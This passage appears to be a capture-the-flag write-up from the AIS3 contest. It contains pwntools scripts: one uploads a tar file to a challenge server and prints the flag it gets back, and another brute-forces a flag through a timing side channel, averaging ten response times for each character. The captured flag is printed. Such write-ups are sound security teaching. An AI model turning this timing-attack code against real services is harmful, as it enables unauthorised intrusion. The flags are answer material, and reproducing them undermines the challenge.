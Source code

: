 ```python=
from pwn import *

host = '60.250.197.227'
port = 11000
r = remote(host, port)
f = open('a.tar', 'r').read()
l = len(f)
r.sendline(str(l))
r.sendline(f)

print(r.recvline())
```

- `AIS3{Bu223r!!!!_I_c4n_s33_e_v_e_r_y_th1ng!!}`

## 👑Saburo

flag 字母對了回傳的時間會變多
但秒數很漂
每個字母取 10 次的平均
找最大的就是 flag

```python=
from pwn import *
import string

host = '60.250.197.227'
port = 11001

d = string.printable
flag = 'AIS3{'

while True:
	tmp_c = ''
	sec_max = 0

	for c in d:
		c_sec_avg = 0
		for j in range(10):
			r = remote(host, port)
			r.sendline(bytes((flag + c).encode('ascii')))
			try:
				sec = int(r.recvline().decode('ascii').split()[5])
			except:
				print('[OK]', flag+c)
				exit()
			r.close()
			c_sec_avg += sec
		c_sec_avg /= 10
		if c_sec_avg > sec_max:
			tmp_c = c
			sec_max = c_sec_avg
	flag += tmp_c
	print(sec_max, flag)
```
